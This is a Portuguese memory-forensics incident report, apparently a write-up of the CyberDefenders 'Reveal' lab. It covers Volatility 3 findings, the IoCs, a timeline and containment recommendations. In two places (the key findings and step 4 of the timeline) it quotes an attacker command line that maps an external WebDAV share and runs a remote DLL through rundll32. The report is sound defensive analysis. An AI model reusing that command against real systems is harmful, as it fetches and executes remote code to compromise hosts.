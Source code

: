 # IR - Análise de Memória (Reveal Lab — Cyber Defenders)

## 1. Sumário executivo
**Contexto**  
Estação Windows com acesso a dados financeiros sinalizada pelo SIEM. Foi coletado um dump de memória para confirmar comprometimento e orientar contenção.

**Escopo**  
Identificar processos/linhas de comando, conexões externas, sinais de injeção/persistência e montar uma timeline do incidente.

**Achados-chave**  
- **LOLBAS confirmado**: `powershell.exe` (janela oculta) executa  
  `net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`  
  → **WebDAV externo** + **DLL remota** via `rundll32` (execução e evasão sem gravar em disco).
- **Rede externa**: `svchost.exe (PID 1260)` com **HTTP** para **`196.204.4.8:80`** (não interno) — requer enriquecimento.
- **Possível persistência**: criação de **Scheduled Task** `{ED77AEE0-EAFB-4133-B544-9E7C5632D902}` às 07:00:00 UTC.
- **Malfind**: sem evidência conclusiva de injeção nos PIDs principais nos trechos fornecidos (pode ter sido transitória).

---

## 2. Metodologia
**Ferramenta**: Volatility 3  
**Plugins utilizados**: `windows.info`, `pslist`, `pstree`, `netscan`, `dlllist`, `handles`, `malfind`, `timeliner`, `cmdline`

**Imagem analisada**  
- Lab: <https://cyberdefenders.org/blueteam-ctf-challenges/reveal/>  
- Caminho local: `raw_data/dfir/192-Reveal.dmp` (symlink para `/Users/ricardoalmeida/Downloads/CyberDefender/Reveal Lab/temp_extract_dir/192-Reveal.dmp`)

**Janela temporal observada (artefatos)**  
- **2024-07-04 10:44:50 UTC** — serviços base (`svchost.exe`) iniciam  
- **2024-07-04 10:45:14 UTC** — atividade `msedge.exe` (utility)  
- **2024-07-15 06:58–06:59 UTC** — conexões externas (`svchost.exe`)  
- **2024-07-15 07:00:00 UTC** — criação de Scheduled Task

---

## 3. Evidências principais — Análise
> Fontes: `reports/dfir/pslist.txt`, `pstree.txt`, `netscan.txt`, `malfind.txt`, `timeliner.txt`, `cmdline.txt`  
> Extracts: `reports/dfir/findings/*`

### 3.1 Processos e hierarquia (pslist / pstree)
- Múltiplos filhos de **`msedge.exe`** (PPID 5488) com `--type=renderer/utility`, compatível com navegação.  
- Cadeia de sistema em boot conforme esperado (`System`, `smss.exe`, `csrss.exe`, `wininit.exe`, etc.).  
- **Crítico**: presença de **`powershell.exe` (PID 3692)** com **cmdline maliciosa** e **`net.exe` (PID 2416)** para o mapeamento WebDAV.  
- `WWAHost.exe (PID 6780)` ativo em rede, sem IoC direto.

**Refs**: `reports/dfir/cmdline.txt`, `reports/dfir/findings/evidence_ps_tree.txt`.

### 3.2 Conexões de rede (netscan)
- Tráfego plausivelmente legítimo de componentes Microsoft (ex.: `smartscreen.exe`, `svchost.exe`→MS/Akamai).  
- **Sinal suspeito**: **`svchost.exe (PID 1260)` → `196.204.4.8:80`** (**HTTP** externo).  
- O endpoint **`45.9.74.32:8888`** (WebDAV) aparece na **cmdline**, mas não foi visto no recorte do `netscan` (sessão pode ter encerrado antes do dump).

**Refs**: `reports/dfir/findings/evidence_netscan_iocs.txt`, `reports/dfir/netscan.txt`.

### 3.3 DLLs / Handles (dlllist / handles)
- Para **`svchost.exe (PID 1260)`**, `dlllist` indica DLLs coerentes com **NetworkService** (nlasvc, dhcpcsvc, DNSAPI, WlanApi, mswsock, webio…).  
- Não há indicação, nos trechos vistos, de DLL dropada em diretórios de usuário/Temp para esse PID.

**Refs**: `reports/dfir/dlllist_pid1260.txt`, `reports/dfir/dlllist_all.txt`.

### 3.4 Injeções / regiões anômalas (malfind)
- Trechos fornecidos não mostram bloco atribuído diretamente a **3692/2416/1260**.  
- Dado o **LOLBAS via DLL remota**, a execução pode ter sido transitória ou fora do momento capturado.

**Conclusão da Seção 3**  
Comprometimento sustentado por **PowerShell oculto** + **WebDAV externo** + **`rundll32` carregando DLL remota**.  
`svchost (PID 1260)` → `196.204.4.8:80` permanece **sinal secundário** a enriquecer.

---

## 4. Timeline do incidente — Narrativa
1. **2024-07-04 10:44:50 UTC** — Iniciam `svchost.exe` de base (`timeliner`: PsList/Sessions).  
2. **2024-07-04 10:45:14 UTC** — `msedge.exe` (utility) ativo — navegação.  
3. **2024-07-15 06:58–06:59 UTC** — `svchost.exe` (PIDs 440/1260) estabelecem conexões externas (TLS e **HTTP** para **`196.204.4.8:80`**).  
4. **(sem timestamp no timeliner, mas claro em `cmdline`)** — **`powershell.exe (PID 3692)`** executa oculto:  
   `net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry` → **execução remota via WebDAV**.  
5. **2024-07-15 07:00:00 UTC** — Criação de **Scheduled Task** `{ED77AEE0-EAFB-4133-B544-9E7C5632D902}` (possível persistência).

**Leitura rápida (evidências)**  
- Cmdline/IoCs: `reports/dfir/findings/evidence_cmdline_iocs.txt`  
- Scheduled Task: `reports/dfir/findings/evidence_scheduled_task.txt`  
- Rede (IPs): `reports/dfir/findings/evidence_netscan_iocs.txt`

---

## 5. Recomendações
1. **Conter** o host afetado; **bloquear** `45.9.74.32:8888` e `196.204.4.8:80`.  
2. **Coletar** Event Logs (Security, PowerShell), Sysmon (se houver), definições da **Scheduled Task** citada, Amcache/Prefetch.  
3. **Threat hunt** por padrões: `rundll32` chamando caminhos UNC/WebDAV; `net use \\*davwwwroot*`; conexões para os IPs citados.  
4. **Hardening**: ASR Rules contra abuso de `rundll32`/WebDAV; **PowerShell Script Block Logging** + Constrained Language; **WDAC/AppLocker**.
